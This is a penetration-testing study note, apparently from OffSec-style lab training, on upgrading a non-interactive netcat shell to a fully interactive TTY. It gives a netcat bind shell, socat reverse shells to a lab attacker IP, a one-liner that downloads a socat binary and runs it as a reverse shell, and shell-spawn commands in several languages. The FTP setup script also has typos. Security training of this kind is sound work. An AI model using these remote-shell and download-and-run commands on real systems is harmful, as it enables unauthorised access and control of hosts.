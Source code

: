 
Most **nc**-like tools provide a non-interactive shell.  
• Any programs that require user input (like file transfers or **su** & **sudo** work poorly if at all)  
• Lack usefull features, like tab completion & job control  
  
  
It's important to know how to upgrade to a full TTY  
  
Check for [fully interactive TTY](Fully%20Interactive%20TTY.md):
	Should see:
```bash
tty
	/dev/pts/0
```

Python comes w/ a standard module named _pty_ allowing for creation of pseudo-terminals  

Demo Setup:  
	Install an FTP server & configure:  
```bash
sudo apt update && sudo apt install pure-ftpd
```
  
Create a new user for Pure-FTPd script & run  
```bash
#!/bin/bash  
  
sudo groupadd ftpgroup  
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser  
sudo pure-pw useradd offsec -u ftpuser -d /ftphome  
sudo pure-pw mkdb  
cd /etc/pure-tfpd/auth/  
sudo ln -s ../conf/PureDB 60pdb  
sudo mkdir - /ftphome  
sudo chown -R ftpuser:ftpgroup /ftphome/  
sudo systemctl restart pure-ftpd
```

Demo:    
Assuming we compromised the Debian lab client and obtained access to a **nc** bind shell:  
```bash
student@debian:~$  nc -lnvp 4444 -e /bin/bash
```

```bash
kali@kali:~$  nc -vn 10.11.0.128 4444  
ftp 10.11.0.4  
offsec  
lab  
bye  
  
^C  
kali@kali:~$
``` 

We were to attempt to login from the Debian lab client --> Kali (running FTPd), however, as it's a non-interactive shell, we don't receive any feedback.  
  

### Upgrading to Interactive Shell:
**[https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)  

Python:  
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```


Socat:  
```bash
#Listener/ Attacker:  
socat file:`tty`,raw,echo=0 tcp-listen:4444  
  
#Victim:  
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

*If not installed on victim:  
```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```


Using stty options:  
```bash
# In reverse shell  
$ python -c 'import pty; pty.spawn("/bin/bash")'  
Ctrl-Z  
echo $TERM  
stty -a #Get rows/ columns info  
  
# In Kali  
$ stty raw -echo  
$ fg  
  
# In reverse shell  
$ reset  
$ export SHELL=bash  
$ export TERM=xterm-256color  
$ stty rows <num> columns <cols>
```


Others:  
```bash
echo os.system('/bin/bash')  
/bin/sh -i  
  
#python3  
python3 -c 'import pty; pty.spawn("/bin/sh")'  
  
#perl  
perl -e 'exec "/bin/sh";'  
  
#ruby  
exec "/bin/sh"  
ruby -e 'exec "/bin/sh"'  
  
#lua  
lua -e "os.execute('/bin/sh')"
```